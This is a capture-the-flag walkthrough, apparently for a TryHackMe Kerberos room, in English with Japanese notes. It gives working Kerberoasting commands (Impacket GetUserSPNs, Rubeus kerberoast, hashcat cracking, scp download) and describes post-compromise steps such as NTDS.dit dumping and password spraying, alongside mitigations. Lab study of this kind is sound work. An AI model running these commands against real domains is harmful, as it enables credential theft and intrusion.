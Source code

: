 ### Impacket Installation - 
Impacket releases have been unstable since 0.9.20 I suggest getting an installation of Impacket < 0.9.20  
1.) cd /opt navigate to your preferred directory to save tools in  
2.) download the precompiled package from https://github.com/SecureAuthCorp/impacket/releases/tag/impacket_0_9_19  
3.) cd Impacket-0.9.19 navigate to the impacket directory  
4.) pip install . - this will install all needed dependencies

### Kerberoasting w/ Impacket - 
1.) cd /usr/share/doc/python3-impacket/examples/ - navigate to where GetUserSPNs.py is located  
2.) `sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip MACHINE_IP -request` - this will dump the Kerberos hash for all kerberoastable accounts it can find on the target domain just like Rubeus does; however, this does not have to be on the targets machine and can be done remotely.  
3.) `hashcat -m 13100 -a 0 hash.txt Pass.txt` - now crack that hash

### What Can a Service Account do?
After cracking the service account password there are various ways of exfiltrating data or collecting loot depending on whether the service account is a domain admin or not. If the service account is a domain admin you have control similar to that of a golden/silver ticket and can now gather loot such as dumping the NTDS.dit. If the service account is not a domain admin you can use it to log into other systems and pivot or escalate or you can use that cracked password to spray against other service and domain admin accounts; many companies may reuse the same or similar passwords for their service or domain admin users. If you are in a professional pen test be aware of how the company wants you to show risk most of the time they don't want you to exfiltrate data and will set a goal or process for you to get in order to show risk inside of the assessment.

### Kerberoasting Mitigation -
 - Strong Service Passwords - If the service account passwords are strong then kerberoasting will be ineffective
 - Don't Make Service Accounts Domain Admins - Service accounts don't need to be domain admins, kerberoasting won't be as effective if you don't make service accounts domain admins.

----------------------------------------Answer the questions below--------------------------------------------------  
What is the HTTPService Password?  
What is the SQLService Password?  
<img src="https://github.com/mylovemyon/TryHackMe_Images/blob/main/Images/Attacking%20Kerberos_10.png" width="75%" height="75%">  
「`Rubeus.exe kerberoast /nowrap /outfie:出力ファイル名`」でSPNを持つユーザを取得できた。（`/nowrap` はチケットを改行なしで出力）  
<img src="https://github.com/mylovemyon/TryHackMe_Images/blob/main/Images/Attacking%20Kerberos_11.png" width="50%" height="50%">  
<img src="https://github.com/mylovemyon/TryHackMe_Images/blob/main/Images/Attacking%20Kerberos_12.png" width="100%" height="100%">  
「`scp SSHユーザ名@IPアドレス:/リモートパス ローカルパス`」でRubeus出力をダウンロードし  
「`hashcat -a 0 -m 13100 TGS名 Passwordリスト名`」でTGSをクラック。（`-m 13100`は`$krb5tgs`形式のHash形式、Johnだとこの形式をサポートしていなかった。）

ちなみに「`impacket-GetUserSPNs ドメイン名/ユーザ名:パスワード -dc-ip IPアドレス -outputfile 出力ファイル`」の場合、今回はSSHアカウントを使用してチケットを取得できた。
<img src="https://github.com/mylovemyon/TryHackMe_Images/blob/main/Images/Attacking%20Kerberos_13.png" width="100%" height="100%">  
